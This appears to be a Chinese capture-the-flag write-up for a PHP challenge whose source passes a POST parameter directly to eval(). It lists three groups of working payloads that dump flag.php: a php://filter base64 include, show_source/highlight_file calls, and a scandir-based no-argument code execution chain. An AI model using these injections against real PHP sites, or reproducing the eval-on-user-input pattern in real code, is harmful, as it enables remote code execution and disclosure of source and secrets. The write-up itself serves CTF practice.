 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

同上



### 第一种

嵌套include

```
c=include$_POST[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```

![image-20250404151918218](./assets/image-20250404151918218.png)

![image-20250404151931157](./assets/image-20250404151931157.png)





### 第二种

show_source()

```
c=show_source("flag.php");
```

![image-20250404151956097](./assets/image-20250404151956097.png)

highlight_file()

```
c=highlight_file("flag.php");
```

![image-20250404152018594](./assets/image-20250404152018594.png)





### 第三种

参考无参rce

```
c=var_dump(scandir(getcwd()));
```

![image-20250404152114633](./assets/image-20250404152114633.png)

```
c=show_source(next(array_reverse(scandir(getcwd()))));
```

![image-20250404152156130](./assets/image-20250404152156130.png)